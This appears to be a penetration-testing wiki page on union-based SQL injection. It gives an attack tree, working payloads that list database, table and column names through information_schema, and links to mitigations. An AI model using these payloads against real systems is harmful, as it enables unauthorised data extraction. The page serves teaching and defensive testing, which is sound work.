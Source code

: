 # Extracting data from the database

## Attack tree

```text
1 SQL injection extract data from 
    1.1 Find out if the database is vulnerable (AND)
        1.1.1 Inject data in the query without breaking it
    1.2 Find the amount of columns (AND)
    1.3 Find which columns accept queries (AND)
    1.4 Build an UNION SELECT SQL segment that will modify the WHERE clause and make it true
    1.5 Inject SQL statements into the column
    1.4 Post exploitation
```
## Examples

Database names:
```text
-1' UniOn Select 1,2,gRoUp_cOncaT(0x7c,schema_name,0x7c) fRoM information_schema.schemata
```

Tables of a database:
```text

-1' UniOn Select 1,2,3,gRoUp_cOncaT(0x7c,table_name,0x7C) fRoM information_schema.tables wHeRe table_schema=[database]
```

Column names:
```text
-1' UniOn Select 1,2,3,gRoUp_cOncaT(0x7c,column_name,0x7C) fRoM information_schema.columns wHeRe table_name=[table name]
```

## Notes

Union-based SQL injection is the most common of all the SQL injections. It uses the UNION statement to integrate two or 
more SELECT statements in a SQL query thereby obtaining data illegally from the database.

## Cheatsheets
* [Detect number of columns](cheatsheets:docs/databases/number-of-columns)
* [Union SQLi queries](cheatsheets:docs/databases/union-select)

## Mitigations
* [Parameterised statements](app-mitigations:docs/databases/parameterised)
* [Input validation](app-mitigations:docs/databases/Input-validation)
